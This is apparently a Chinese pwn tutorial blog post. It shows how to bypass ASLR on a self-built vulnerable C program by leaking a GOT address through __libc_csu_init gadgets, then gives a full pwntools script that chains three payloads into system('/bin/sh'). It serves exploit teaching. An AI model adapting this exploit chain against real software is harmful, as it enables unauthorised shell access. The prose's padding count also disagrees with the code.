 ```yaml
---
title: leak_got_addr
date: 2017-11-15
tag: pwn
layout: post
---
```


> this is a test, not true

## 0x00准备

- 本次实验的机器为`Ubuntu 16.04.2 LTS`64位系统

- 用`gcc`编译需要关闭`stack-protector`

- 需要`gdb` `peda` `pwntools`

- 攻击目标`test.c`

  ```c
  #include<unistd.h>
  int main(){
  	char buf[10];
  	write(1,"2333\n",5);
  	read(0,buf,256);
  	return 0;
  }
  ```

## 0x01分析

这次把栈溢出的保护几乎都打开了，`ASLR`使得无法通过`ret2libc`来获得shell，栈上也没有可执行权限。所以可以通过`write`函数leak一个函数在内存中的地址（它是随机的），然后根据`libc.so.6`文件中`system`与`write`的相对地址，推算出`system`在本次运行中的内存中的地址。

这里可以利用一个Linux下的特性，**lazy binding**，简单来说，GOT 表的初始值都指向 PLT 表对应条目中的某个片段，这个片段的作用是调用一个函数地址解析函数。当程序需要调用某个外部函数时，首先到 PLT 表内寻找对应的入口点，跳转到 GOT 表中。如果这是第一次调用这个函数，程序会通过 GOT 表再次跳转回 PLT 表，运行地址解析程序来确定函数的确切地址，并用其覆盖掉 GOT 表的初始值，之后再执行函数调用。当再次调用这个函数时，程序仍然首先通过 PLT 表跳转到 GOT 表，此时 GOT 表已经存有获取函数的内存地址，所以会直接跳转到函数所在地址执行函数。

第一次函数调用：
![第一次调用函数](https://raw.githubusercontent.com/void0red/Pictures/master/blog/leak_gotaddr_0.png)
以后的函数调用：
![以后的函数调用](https://raw.githubusercontent.com/void0red/Pictures/master/blog/leak_gotaddr_1.png)

例如：下面的执行流处于调用`write`函数的上面

```
   0x40056e <main+8>:	mov    edx,0x5
   0x400573 <main+13>:	mov    esi,0x400624
   0x400578 <main+18>:	mov    edi,0x1
=> 0x40057d <main+23>:	call   0x400430 <write@plt>
   0x400582 <main+28>:	lea    rax,[rbp-0x10]
   0x400586 <main+32>:	mov    edx,0x100
   0x40058b <main+37>:	mov    rsi,rax
   0x40058e <main+40>:	mov    edi,0x0
```

跟进去

```
  0x400420:	push   QWORD PTR [rip+0x200be2]        # 0x601008
   0x400426:	jmp    QWORD PTR [rip+0x200be4]        # 0x601010
   0x40042c:	nop    DWORD PTR [rax+0x0]
=> 0x400430 <write@plt>:	jmp    QWORD PTR [rip+0x200be2]        # 0x601018
 | 0x400436 <write@plt+6>:	push   0x0
 | 0x40043b <write@plt+11>:	jmp    0x400420
 | 0x400440 <read@plt>:	jmp    QWORD PTR [rip+0x200bda]        # 0x601020
 | 0x400446 <read@plt+6>:	push   0x1
 |->   0x400436 <write@plt+6>:	push   0x0
       0x40043b <write@plt+11>:	jmp    0x400420
       0x400440 <read@plt>:	jmp    QWORD PTR [rip+0x200bda]        # 0x601020
       0x400446 <read@plt+6>:	push   0x1
                                                                  JUMP is taken
```

指令准备发生跳转到`0x400420`处，而`0x400420`处的指令即是跳转到`0x601010`，`0x601010`处存储的是解析函数实际地址的指令地址

```
  0x40041c:	add    BYTE PTR [rax],al
   0x40041e:	add    BYTE PTR [rax],al
   0x400420:	push   QWORD PTR [rip+0x200be2]        # 0x601008
=> 0x400426:	jmp    QWORD PTR [rip+0x200be4]        # 0x601010
 | 0x40042c:	nop    DWORD PTR [rax+0x0]
 | 0x400430 <write@plt>:	jmp    QWORD PTR [rip+0x200be2]        # 0x601018
 | 0x400436 <write@plt+6>:	push   0x0
 | 0x40043b <write@plt+11>:	jmp    0x400420
 |->   0x7ffff7dee870 <_dl_runtime_resolve_avx>:	push   rbx
       0x7ffff7dee871 <_dl_runtime_resolve_avx+1>:	mov    rbx,rsp
       0x7ffff7dee874 <_dl_runtime_resolve_avx+4>:	and    rsp,0xffffffffffffffe0
       0x7ffff7dee878 <_dl_runtime_resolve_avx+8>:	sub    rsp,0x180
                                                                  JUMP is taken
```

上面的`_dl_runtime_resolve_avx`函数就是解析实际地址的指令

## 0x02查找可用的gadgets

因为`write`函数至少需要三个参数，所以需要找到`rdi，rsi，rdx`来传递参数，这个时候，`<__libc_csu_init>`函数就比较好用了，用`objdump -S test`来查看所有的汇编代码

```
00000000004005a0 <__libc_csu_init>:
  4005a0:	41 57                	push   %r15
  4005a2:	41 56                	push   %r14
  4005a4:	41 89 ff             	mov    %edi,%r15d
  4005a7:	41 55                	push   %r13
  4005a9:	41 54                	push   %r12
  4005ab:	4c 8d 25 5e 08 20 00 	lea    0x20085e(%rip),%r12        # 600e10 <__frame_dummy_init_array_entry>
  4005b2:	55                   	push   %rbp
  4005b3:	48 8d 2d 5e 08 20 00 	lea    0x20085e(%rip),%rbp        # 600e18 <__init_array_end>
  4005ba:	53                   	push   %rbx
  4005bb:	49 89 f6             	mov    %rsi,%r14
  4005be:	49 89 d5             	mov    %rdx,%r13
  4005c1:	4c 29 e5             	sub    %r12,%rbp
  4005c4:	48 83 ec 08          	sub    $0x8,%rsp
  4005c8:	48 c1 fd 03          	sar    $0x3,%rbp
  4005cc:	e8 2f fe ff ff       	callq  400400 <_init>
  4005d1:	48 85 ed             	test   %rbp,%rbp
  4005d4:	74 20                	je     4005f6 <__libc_csu_init+0x56>
  4005d6:	31 db                	xor    %ebx,%ebx
  4005d8:	0f 1f 84 00 00 00 00 	nopl   0x0(%rax,%rax,1)
  4005df:	00
  4005e0:	4c 89 ea             	mov    %r13,%rdx
  4005e3:	4c 89 f6             	mov    %r14,%rsi
  4005e6:	44 89 ff             	mov    %r15d,%edi
  4005e9:	41 ff 14 dc          	callq  *(%r12,%rbx,8)
  4005ed:	48 83 c3 01          	add    $0x1,%rbx
  4005f1:	48 39 eb             	cmp    %rbp,%rbx
  4005f4:	75 ea                	jne    4005e0 <__libc_csu_init+0x40>
  4005f6:	48 83 c4 08          	add    $0x8,%rsp
  4005fa:	5b                   	pop    %rbx
  4005fb:	5d                   	pop    %rbp
  4005fc:	41 5c                	pop    %r12
  4005fe:	41 5d                	pop    %r13
  400600:	41 5e                	pop    %r14
  400602:	41 5f                	pop    %r15
  400604:	c3                   	retq   
  400605:	90                   	nop
  400606:	66 2e 0f 1f 84 00 00 	nopw   %cs:0x0(%rax,%rax,1)
  40060d:	00 00 00
```

可以看到从`0x4005fa`开始，进行了弹栈，可以控制`rbx，rbp，r12，r13，r14，r15`的值，配合`0x4005e0`处的指令，就可以控制`edi，rsi，rdx`的值了，要注意的是`0x4005f4`处有一个跳转指令，要让跳转失效，就必须让`rbp==rbx`，继续向前看，`0x4005ed`处让`rbx`加上了1，`0x4005e9`处的意思是调用`r12+rbx×8`处的指令，不妨让`rbx=0`，`rbp=1`

## 0x03编写payload

尝试了一下新工具`pwntools`

```python
from pwn import *


libc = ELF('./libc.so.6')
elf = ELF('./test')
return_offset = 24
got_write = elf.got['write']
got_read = elf.got['read']
gadget0_addr = 0x4005fa
gadget1_addr = 0x4005e0
main_addr = 0x400566
bss_addr = 0x601040
symbols_offset = libc.symbols['write'] - libc.symbols['system']

payload1 = 'a' * return_offset
payload1 += p64(gadget0_addr) + p64(0) + p64(1) + p64(got_write) + p64(8) + p64(got_write) + p64(1)
payload1 += p64(gadget1_addr)
payload1 += 'a' * 56
payload1 += p64(main_addr)

r = process('./test')
r.recvuntil('2333\n')

print '--------payload1'

r.send(payload1)
sleep(1)

write_addr = u64(r.recv(8))
system_addr = write_addr - symbols_offset
r.recvuntil('2333\n')

payload2 = 'a' * return_offset
payload2 += p64(gadget0_addr) + p64(0) + p64(1) + p64(got_read) + p64(16) + p64(bss_addr) + p64(0)
payload2 += p64(gadget1_addr)
payload2 += 'a' * 56
payload2 += p64(main_addr)

print '--------payload2'
r.send(payload2)
sleep(1)
r.send(p64(system_addr))
r.send('/bin/sh\0')
sleep(1)
r.recvuntil('2333\n')

payload3 = 'a' * return_offset
payload3 += p64(gadget0_addr) + p64(0) + p64(1) + p64(bss_addr) + p64(0) + p64(0) + p64(bss_addr + 8)
payload3 += p64(gadget1_addr)

print '--------payload3'
r.send(payload3)
sleep(1)

r.interactive()
```

三段payload的结构大致相似，首先一段padding，填充到`read`函数的返回地址之前，然后让程序跳转到`pop...`处，接下来，是需要`pop`对象：

第一个0是存进`rbx`的，第二个1是存进`rbp`的，接下来是`write`函数在GOT表中的地址，存进`r12`，也就是第二个`gadget`中`call`的对象，然后是`write`函数的三个参数（注意寄存器顺序），其中第二个参数是`write`函数在GOT表中的地址，因为已经执行过`write`函数了（现在执行流就在`write`函数里面），所以这个地址存放的指令不再是跳转，解析，而是`write`函数在内存中的实际地址，这样就让程序`leak`出了一段真实地址

现在payload已经完成了所有值的传递，接着是第二段`gadget`，然后为了让程序回到`main`函数里面（保住接着溢出攻击），用54字节的padding填充弹栈行为，劫持到`0x400604`处的`retq`指令，回到`main`函数

然后两个`payload`和第一个结构类似，第二个`payload`将`system`的实际地址，以及`/bin/sh`存入`.bss`段中，第三个`payload`则是调用`system`函数，实现getshell

## 0x04总结

通过`leak_gotaddr`，可以获得函数的真实地址，也就是绕过了`ASLR`的保护
